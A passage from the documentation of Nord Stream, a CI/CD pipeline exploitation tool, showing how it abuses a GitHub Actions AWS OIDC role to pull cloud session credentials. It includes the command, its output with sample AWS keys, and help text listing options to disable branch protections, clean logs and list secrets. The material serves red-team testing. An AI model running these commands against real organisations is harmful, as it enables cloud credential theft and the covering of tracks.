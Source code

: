 The `--azure-subscription-id` is optional and can be used to get an access token for a specific subscription.

#### AWS OIDC

The same technique (see [Azure OIDC](#azure-oidc)) can be used to get a session token on AWS.

Here is an example of a workflow using AWS OIDC:

```yaml
[...]
steps:
    - name: Configure AWS Credentials
    uses: aws-actions/configure-aws-credentials@v1
    with:
        role-to-assume: arn:aws:iam::133333333337:role/S3Access/CustomRole
        role-session-name: oidcrolesession
        aws-region: us-east-1
```

If you come across such a workflow, this means that the repository might be configured to get an AWS access token that can give you access to AWS resources.

Nord Stream is able to deploy a pipeline to retrieve such access token with the following options:

```bash
$ nord-stream.py github --token "$PAT" --org Synacktiv --repo repo --aws-role 'arn:aws:iam::133333333337:role/S3Access/CustomRole' --aws-region us-east-1 --force
[+] "Synacktiv/repo"
[*] Running OIDC AWS credentials generation workflow
[*] Getting workflow output
[!] Workflow not finished, sleeping for 15s
[+] Workflow has successfully terminated.
[+] OIDC credentials:
AWS_DEFAULT_REGION=us-east-1
AWS_SESSION_TOKEN=IQoJb3[...]KMs0/QB6
AWS_REGION=us-east-1
AWS_ACCESS_KEY_ID=ASIA5ABC8XDMAP2ANNWO
AWS_SECRET_ACCESS_KEY=7KJLCjdJKqlpLKDAI9F7SH6SjSQBX68Sjm13xXDA
```

#### Help
```
$ python3 nord-stream.py github -h
CICD pipeline exploitation tool

Usage:
    nord-stream.py github [options] --token <ghp> --org <org> [--repo <repo> --no-repo --no-env --no-org --env <env> --disable-protections --branch-name <name> --no-clean (--key-id <id> --user <user> --email <email>)]
    nord-stream.py github [options] --token <ghp> --org <org> --yaml <yaml> --repo <repo> [--env <env> --disable-protections --branch-name <name> --no-clean (--key-id <id> --user <user> --email <email>)]
    nord-stream.py github [options] --token <ghp> --org <org> ([--clean-logs] [--clean-branch-policy]) [--repo <repo> --branch-name <name>]
    nord-stream.py github [options] --token <ghp> --org <org> --build-yaml <filename> --repo <repo> [--env <env>]
    nord-stream.py github [options] --token <ghp> --org <org> --azure-tenant-id <tenant> --azure-client-id <client> [--azure-subscription-id <subscription> --repo <repo> --env <env> --disable-protections --branch-name <name> --no-clean]
    nord-stream.py github [options] --token <ghp> --org <org> --aws-role <role> --aws-region <region> [--repo <repo> --env <env> --disable-protections --branch-name <name> --no-clean]
    nord-stream.py github [options] --token <ghp> --org <org> --list-protections [--repo <repo> --branch-name <name> --disable-protections (--key-id <id> --user <user> --email <email>)]
    nord-stream.py github [options] --token <ghp> --org <org> --list-secrets [--repo <repo> --no-repo --no-env --no-org]
    nord-stream.py github [options] --token <ghp> [--org <org>] --list-repos [--write-filter]
```